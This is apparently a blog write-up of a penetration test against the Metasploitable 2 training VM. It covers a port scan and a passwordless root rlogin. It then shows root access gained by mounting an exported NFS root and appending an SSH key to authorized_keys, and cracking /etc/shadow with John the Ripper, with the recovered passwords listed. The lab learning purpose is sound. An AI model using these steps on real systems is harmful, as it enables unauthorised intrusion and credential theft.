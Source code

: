 ```yaml
---
layout: post
title:  "The Pentest Runbook Part 2 "
date:   2020-06-29 09:19:32 +0200
categories: alecsahew github.io Pentest Runbook
---
```


### Task and Environemnt 

* Pen Testing for Metasploitable 2 

### Used Tool 
* kali-linux 2020
* Nmap 
* John the Ripper

### Reconessaince & Exploitation  
* Scan all ports + service version + detect OS + banner grab
* nmap -v -oA recon.metasploitable 192.168.178.50 -sS -sV -O -p1-65535 --script banner
 
* Scan for weak password
* John the Ripper

### Report 
* 1) MISCOFIGURATION: It is possible to get access to the system 
* 2) WEAK PASSWORD for both system and database server accounts

#### 1. List Of The Open Ports 

	Nmap -sV -O -p1-65535 192.168.178.50
	Nmap scan report for 192.168.178.50
	Host is up (0.0055s latency).
	Not shown: 65505 closed ports
	PORT      STATE SERVICE     VERSION
	21/tcp    open  ftp         vsftpd 2.3.4
	22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp    open  telnet      Linux telnetd
	25/tcp    open  smtp        Postfix smtpd
	53/tcp    open  domain      ISC BIND 9.4.2
	80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp   open  rpcbind     2 (RPC #100000)
	139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
	445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
	512/tcp   open  exec?
	513/tcp   open  login?
	514/tcp   open  tcpwrapped
	1099/tcp  open  rmiregistry GNU Classpath grmiregistry
	1524/tcp  open  shell       Metasploitable root shell
	2049/tcp  open  nfs         2-4 (RPC #100003)
	2121/tcp  open  ftp         ProFTPD 1.3.1
	3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
	3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
	5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp  open  vnc         VNC (protocol 3.3)
	6000/tcp  open  X11         (access denied)
	6667/tcp  open  irc         Unreal ircd
	6697/tcp  open  irc         Unreal ircd
	8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
	8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
	8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
	38869/tcp open  status      1 (RPC #100024)
	46013/tcp open  nlockmgr    1-4 (RPC #100021)
	49058/tcp open  mountd      1-3 (RPC #100005)
	53312/tcp open  unknown
	MAC Address: C4:85:08:25:DD:16 (Intel Corporate)
	Device type: general purpose
	Running: Linux 2.6.X
	OS CPE: cpe:/o:linux:linux_kernel:2.6
	OS details: Linux 2.6.9 - 2.6.33
	Uptime guess: 0.932 days (since Tue Jun 23 15:09:55 2020)
	Network Distance: 1 hop
	TCP Sequence Prediction: Difficulty=204 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	

#### 1.1 513/tcp Analysis of Remote Login 
#### Remote Login Exploitation

##### 513/tcp: rlogin possible without password 

	[~]$ rlogin -l root 192.168.178.50
	Last login: Tue Jun 23 08:49:00 EDT 2020 from :0.0 on pts/0
	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

	The programs included with the Ubuntu system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.

	Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
	applicable law.

	To access official Ubuntu documentation, please visit:
	http://help.ubuntu.com/
	You have new mail.
	root@metasploitable:~#
	
#### 1.2 2049/tcp Analysis of NFS (Network File System)
#### Privilege Escalation via NFS

##### 2049/tcp open  nfs: "/" the root of the file system is being exported
##### in this case a ssh key can be created and can be added to the ssh key of the victim machine for the root user

	[~]$ rpcinfo -p 192.168.178.50
		program vers proto   port  service
		100000    2   tcp    111  portmapper
		100000    2   udp    111  portmapper
		100024    1   udp  53667  status
		100024    1   tcp  38869  status
		100003    2   udp   2049  nfs
		100003    3   udp   2049  nfs
		100003    4   udp   2049  nfs
		100021    1   udp  54528  nlockmgr
		100021    3   udp  54528  nlockmgr
		100021    4   udp  54528  nlockmgr
		100003    2   tcp   2049  nfs
		100003    3   tcp   2049  nfs
		100003    4   tcp   2049  nfs
		100021    1   tcp  46013  nlockmgr
		100021    3   tcp  46013  nlockmgr
		100021    4   tcp  46013  nlockmgr
		100005    1   udp  54216  mountd
		100005    1   tcp  49058  mountd
		100005    2   udp  54216  mountd
		100005    2   tcp  49058  mountd
		100005    3   udp  54216  mountd
		100005    3   tcp  49058  mountd

	[ ~]$ showmount -e 192.168.178.50
	Export list for 192.168.178.50:
	/ *

##### with these prerequisites 
##### 1) a new SSH key can be generate on the attacking system
##### 2) the NFS export can be mounted 
##### 3) the key can added to the root user
##### 4) that leads to full access to the server via ssh 

	[ssh]# ssh-keygen
	Generating public/private rsa key pair.
	Enter file in which to save the key (/root/.ssh/id_rsa): 
	Enter passphrase (empty for no passphrase): 
	Enter same passphrase again: 
	Your identification has been saved in /root/.ssh/id_rsa.
	Your public key has been saved in /root/.ssh/id_rsa.pub.
	...
	[.ssh]# ll
	total 12
	-rw-------. 1 root root 1675 Jun 24 12:03 id_rsa
	-rw-r--r--. 1 root root  403 Jun 24 12:03 id_rsa.pub

	[ tmp]$ mkdir m000
	[.ssh]# mount -t nfs 192.168.178.50:/ /tmp/m000/
	[.ssh]# cat id_rsa.pub >> /tmp/m000/root/.ssh/authorized_keys
	[.ssh]# umount /tmp/m000

	[ ~]# ssh root@192.168.178.50 
	Last login: Wed Jun 24 04:24:48 2020 from x69x69.fritz.box
	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

	The programs included with the Ubuntu system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.

	Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
	applicable law.

	To access official Ubuntu documentation, please visit:
	http://help.ubuntu.com/
	You have new mail.
	root@metasploitable:~# 
	

#### 2. Analysis of PASSWORDs
#### Weak Passwords

	unshadow /tmp/m000/etc/passwd /tmp/m000/etc/shadow > merge.txt
 	john merge.txt
 	john --show merge.txt
 	sys:batmann
 	klog:123456789
 	service:service
 	user:user
 	postgres:postgres
 	msfadminr:sfadmin
 
	the root mysql password is empty 

to be continued ...	
